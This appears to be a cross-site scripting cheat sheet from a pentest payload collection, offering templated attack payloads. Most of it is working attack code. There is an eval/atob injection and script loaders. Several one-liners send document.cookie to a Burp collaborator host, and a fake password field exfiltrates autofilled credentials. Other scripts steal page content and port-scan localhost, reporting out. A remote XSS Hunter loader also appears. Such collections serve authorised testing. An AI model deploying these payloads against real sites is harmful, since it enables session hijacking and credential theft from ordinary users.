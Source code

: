 ```yaml
---
title: XSS
description: Cross-site scripting (XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application.
badge: Web
---
```



## Examples

### Injections

```html
"><input onfocus=eval(atob(this.id)) id={{ xss-payload alert(1) } b64 } autofocus>
```

### Exploitation

#### Execute once only

Useful when the payload is reflected on multiple fields. Mainly to avoid popping 3000 alerts when testing.

```js
if (window.{{ js-exec-flag _trickz }} === undefined){{{ js-exec-once alert(1) }};window.{{ js-exec-flag _trickz }} = 1}
```

Same trick but also trying to indicate where the payload came from.

```js
if (window['_{{ input-ref username }}'] === undefined){alert('{{ input-ref username }}');window['_{{ input-ref username }}'] = 1}
```

#### Load Script file

```js
var a=document.createElement("script");a.src="{{ js-payload-url http://localhost:8000/xss.js }}";document.body.appendChild(a);
```

#### Steal cookies

```js
fetch('https://{{ collaborator your.burpcollaborator.net }}', {method: 'POST', mode: 'no-cors', body:document.cookie})
```

```js
var xhttp = new XMLHttpRequest(); xhttp.open("GET", "https://{{ collaborator your.burpcollaborator.net }}/?c=" + document.cookie, true);xhttp.send();
```

```js
navigator.sendBeacon('https://{{ collaborator your.burpcollaborator.net }}/',document.cookie)
```

Very simple, yet effective:
```html
<img src=x onerror="this.src='https://{{ collaborator your.burpcollaborator.net }}/?c='+document.cookie">
```

#### Capture password auto-fill

```html
<b>Username:</b><br>
<input name=username id=username>
<b>Password:</b><br>
<input type=password name=password onchange="if(this.value.length)fetch'https://{{ collaborator your.burpcollaborator.net }}',{method:'POST', mode: 'no-cors', body:username.value+':'+this.value});">
```

#### Steal Page Content

```js
var url = "{{ target-url http://localhost:8000/info/me }}";
var attacker = "https://{{ collaborator your.burpcollaborator.net }}";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

#### Port Scanning

```js
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = https://{{ collaborator your.burpcollaborator.net }}/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

## Blind XSS

### XSS Hunter

#### Custom XSS Hunter payloads

```js
var a=document.createElement("script");a.src="https://{{ xss-hunter-username your-username }}.xss.ht";document.body.appendChild(a);
```

## Bypass WAF

![Mutation points in a tag for WAF bypass](web_client_xss_a_mutation_points.jpg)

## Angular.js
